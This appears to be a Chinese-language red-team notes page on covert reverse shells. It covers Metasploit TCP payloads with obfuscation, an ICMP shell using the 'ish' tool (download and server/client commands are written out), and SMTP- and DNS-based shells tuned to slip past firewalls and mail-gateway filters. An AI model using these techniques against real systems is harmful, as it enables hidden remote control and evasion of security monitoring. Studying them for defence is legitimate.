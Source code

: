 ```yaml
---
title: "reverse_shell"
id: zhfly3503
---
```


## reverse_shell

这里说的反弹shell不是上面开头那里说的利用内部软件进行反弹，而是利用一些非常规协议来绕过一些安全设备的流量监测功能。

**tcp/udp shell**

tcp/udp的shell可以使用msf生成的tcp马、流量混淆推荐rc4和https偏执模式，也能够绕过一些防火墙。

**icmp shell**

使用ICMP来作为隐蔽通道的原理是：有一个服务端和一个客户端，当它们通信时会用到 ICMPECHO 和 ICMPECHOREPLY的数据部分。这就意味着通过ICMP包的数据部分可以发送和接收数据。

![image](../img/da0b7f60633f3a58641e54429d905e0c.png)

这里用python写了一个嗅探功能的小脚本 因为icmp是没有端口概念的，也就无法直接建立两台主机上ICMP应用程序的通信。所以程序需要从嗅探到的icmp包中再传给应用层，然后再执行其他的。

![image](../img/c1509b2a7c46c33babb19a9844a21915.png)

这里使用ish演示

```
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz 
```

被控端

```
./ishd -i 6666 -t 0 -p 1024 -d 
```

控制端

```
./ish -i 6666 -t 0 -p 1024 127.0.0.1 
```

![image](../img/8a3b929ffc080242cffd38efa7881f8d.png)

这样利用icmp传输可以绕过大部分的设备。

**DNS/smtp shell**

这里提一下DNS和smtp服务。之前做的分享中有关于SMTP协议传输shell的思路，其实是利用smtp协议可以出网的思路，写一个smtp的客户端和服务端对应发送和接受执行内容，传输为了方便演示使用的是明文，为了增加迷惑性，添加删除邮件功能，需要提高的就是可以对传输的文本内容进行混淆加密之类的，防止安全邮件网关根据关键字拦截邮件。DNS这个的话就是通过解析记录的内容来进行命令的执行，还可以配合dnslog来使用。

![image](../img/510f4f5aaf99820b6dec7e4e9f168150.png)